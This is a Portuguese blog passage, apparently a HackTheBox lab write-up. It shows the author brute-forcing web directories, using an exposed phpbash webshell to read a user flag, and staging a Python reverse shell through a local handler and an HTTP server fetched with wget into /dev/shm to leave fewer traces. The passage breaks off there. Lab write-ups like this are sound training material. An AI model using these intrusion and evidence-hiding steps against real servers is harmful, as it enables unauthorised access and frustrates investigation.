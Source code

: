 <p style="text-align:justify;">Aparantemente o servidor só estava com a porta 80 aberta e rodando um servidor http apache. O passo seguinte foi acessar o site e analisa-lo.</p>

<img class="alignnone size-full wp-image-1609" src="https://brenn0.files.wordpress.com/2018/04/web_initial.png" alt="web_initial" width="897" height="609" />

<p style="text-align:justify;">O site rodando é simples e não oferecia nada além de páginas estáticas. No código fonte não havia nada interessante.</p>

<p style="text-align:justify;">Mas na página http://10.10.10.68/<strong>single.html </strong>teve algo que chamou minha atenção: Arrexel's, o dono do site, fala sobre o <a href="https://github.com/Arrexel/phpbash" target="_blank" rel="noopener">phpbash</a> e que a desenvolveu neste mesmo servidor. Ou seja, havia uma webshell em algum canto do server e seria ótimo encontrar.</p>

<p style="text-align:justify;">Abaixo do curto texto há prints de tela com o phpbash rodando. Achei que seria uma dica e tentei acessar o phpbash usando o caminho /uploads/phpbash.php, que é exibido em um dos prints, mas sem sucesso.</p>

<p style="text-align:justify;">Foi hora de partir para ignorância: fazer força-bruta dos diretórios do servior web, o que é bem comum em muitas máquinas do hackthebox. Gosto de usar o <a href="https://www.owasp.org/index.php/Category:OWASP_DirBuster_Project" target="_blank" rel="noopener">OWASP DirBuster</a> por nenhuma razão em especial. E usei <a href="https://github.com/thesp0nge/enchant/blob/master/db/directory-list-2.3-medium.txt" target="_blank" rel="noopener">esta</a> wordlist.</p>

<img class=" size-full wp-image-1610 aligncenter" src="https://brenn0.files.wordpress.com/2018/04/dir_buster1.png" alt="dir_buster1" width="771" height="547" />

Depois de uns minutos, encontrei exatamente o que esperava:

<img class=" size-full wp-image-1611 aligncenter" src="https://brenn0.files.wordpress.com/2018/04/dev_folder.png" alt="dev_folder" width="447" height="280" />

<p style="text-align:justify;">Assim que tive acesso a webshell, fui em busca da flag do usuário. Ela sempre estará em /home dentro do diretório de alguém. Nesse caso, era o arrexel.</p>

<img class=" size-full wp-image-1612 aligncenter" src="https://brenn0.files.wordpress.com/2018/04/user_flag.png" alt="user_flag" width="589" height="377" />

<p style="text-align:justify;">Agora era preciso virar root e para isso uma webshell não é legal. Costumo usar essas <a href="https://github.com/infodox/python-pty-shells" target="_blank" rel="noopener">shells em python</a> porque já pego um pseudo terminal.</p>

<p style="text-align:justify;">Preparei meu pc para receber a shell:</p>

[code]brenno@budweiser ~/D/p/e/python-shells&gt; python shell_handler.py 10.10.15.111:1338 -b[/]
[/code]

<p style="text-align:justify;">E, depois de ter alterado o arquivo back_connect.py e inserido meu endereço ip e porta para onde a shell reversa seria enviada, preparei um simples servidor http para enviar a shell.</p>

[code]brenno@budweiser ~/D/p/e/python-shells&gt; python -m SimpleHTTPServer 8000 Serving HTTP on 0.0.0.0 port 8000 ...[/code]

<p style="text-align:justify;">Na webshell, entrei no diretório <a href="https://www.cyberciti.biz/tips/what-is-devshm-and-its-practical-usage.html" target="_blank" rel="noopener">/dev/shm</a>, que é um diretório que usa a memória RAM para armazenar os dados, assim podemos deixar menos evidências no servidor ownado. Boas práticas na simulação leva a boas práticas na prática. Aí foi só mandar um wget para buscar a shell reversa.</p>
